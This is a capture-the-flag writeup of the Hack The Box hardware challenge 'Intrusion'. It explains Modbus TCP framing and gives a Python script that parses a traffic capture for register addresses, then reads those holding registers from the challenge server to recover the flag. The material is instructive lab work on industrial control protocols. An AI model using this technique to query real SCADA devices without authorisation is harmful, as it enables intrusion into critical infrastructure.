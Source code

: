 ```yaml
---
layout: newpost
title: "Writeup: HTB Challenge Intrusion"
date: 2025-01-20
categories: [tech]
tags: [htb, ctf, hardware]
---
```


- Challenge name: Intrusion
- CATEGORY: Hardware
- Solve date: 2025-01-19

### CHALLENGE DESCRIPTION: 

> After gaining access to the enemy's infrastructure, we collected crucial network traffic data from their Modbus network. Our primary objective is to swiftly identify the specific registers containing highly sensitive information and extract that data.

### Provided files

- `client.py`: Python starting file to communicate with remote modbus service
- `network_logs.pcapng`: PCAP with modbus traffic with 168 modbus packets

---

# What is "modbus"?

Modbus is a protocol used in SCADA environments to communicate with industrial control systems.

## Packet structure

The captured packages are using a version of the protocol to communicate over TCP called "modbus TCP" where the payloads are strutured like this `ba d1 00 00 00 04 34 01 01 03`

1. First 2 bytes: `ba d1` is the transaction number
2. `00 00`: The protocol identifier
3. `00 04`: The length
4. `34`: Unit identifier
5. `01`: The function, in this case "Read Coils"
6. The modbus function data is function specific, i.e. `01 03`

---

# Finding a relevant function in the capture

They ask us to "identify the specific registers" so we need to find something which interacts with a register. We can see 3 functions in the capture:
- `0x01` Read Coils
- `0x0f` Write multiple coils
- `0x10` Write multiple registries

Let's look at "Write multiple registries".

## Write multiple registries

[modbus.org](https://modbus.org/docs/Modbus_Application_Protocol_V1_1b3.pdf) (page 30) tells this about the request payload structure. Let's include one package seen in our capture (post function bytes): `10 00 06 00 01`.

|What|Bytes|Example|Our payload|
|-|-|-|-|
Function code |1 Byte |0x10|0x10
Starting Address |2 Bytes |0x0000 to 0xFFFF|0x0006
Quantity of Registers |2 Bytes |0x0001 to 0x007B|0x0001
Byte Count| 1 Byte| 2 x N*|n/a
Registers Value |N* x 2 Bytes |value|n/a

So it looks like we don't see any value being written.. but we do know that the register is at `0x0006`!

# Read the registers

In the python code provided they use `from umodbus.client import tcp`.
The write function will add data to "holding" registries so we should use [`read_holding_registers`](https://umodbus.readthedocs.io/en/latest/_modules/umodbus/client/tcp.html#read_holding_registers).

---

# Putting it all together

- We will use `scapy` to parse data from the capture
- We will find all the "Write multiple registries" functions and collect the addresses
- We will read the holding registries addresses

[client.py]({{site.baseurl}}/assets/ctf_files/htb_intursion/client.py)  
[pcap]({{site.baseurl}}/assets/ctf_files/htb_intursion/network_logs.pcapng)

```py
#!/usr/bin/python3

import socket
from time import sleep
from umodbus import conf
from umodbus.client import tcp
from scapy.all import rdpcap, TCP

# Adjust modbus configuration
conf.SIGNED_VALUES = True

# Create a socket connection
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = "94.237.50.7"
sock.connect((ip, 36363))

modbus_functions = {
    "01": "Read Coils",
    "02": "Read Discrete Inputs",
    "03": "Read Holding Registers",
    "04": "Read Input Registers",
    "05": "Write Single Coil",
    "06": "Write Single Register",
    "15": "Write Multiple Coils",
    "10": "Write Multiple Registers",
}

def read_pcap():
    sus_bytes = []
    packets = rdpcap('network_logs.pcapng')
    for packet in packets:
        if TCP in packet:
            payload = bytes(packet[TCP].payload)
            # ex: b'\xba\xd1\x00\x00\x00\x044\x01\x01\x03'
            if payload:
                try:
                    transaction = payload[:2]
                    protocol = payload[2:4]
                    lenght = payload[4:6]
                    unit = payload[6]
                    func = payload[7]
                    other = payload[8:]
                    transaction = int.from_bytes(transaction, byteorder='big')
                    # print(f"transaction: {transaction}, protocol: {protocol}, lenght: {lenght}, unit: {unit:02x}, func: {func:02x}")
                    function_name = modbus_functions.get(f"{func:02x}", "Unknown")
                    if function_name == "Write Multiple Registers":
                        sus_bytes.append({
                            "addr": other[:2],
                            "quantity": other[2:4],
                            })
                except Exception as e:
                    print(f"------------\nFailed to parse Modbus data: {e}")
                    print(payload)
            # break
    return sus_bytes

registers = read_pcap()

print(f"Found {len(registers)} Modbus registers\n   ")

"""
 umodbus.client.tcp.read_holding_registers(slave_id, starting_address, quantity)

    Return ADU for Modbus function code 03: Read Holding Registers.
    Parameters:	slave_id – Number of slave.
    Returns:	Byte array with ADU.
"""
for reg in registers:
    add = int.from_bytes(reg["addr"])
    quantity = int.from_bytes(reg["quantity"])
    message = tcp.read_holding_registers(slave_id=52, starting_address=int(add), quantity=int(quantity))
    response = tcp.send_message(message, sock)
    print(chr(response[0]), end="", flush=True)
    sleep(0.5)
sock.close()
```

Output:
```sh
❯ python client.py
Found 42 Modbus registers

HTB{23...}
```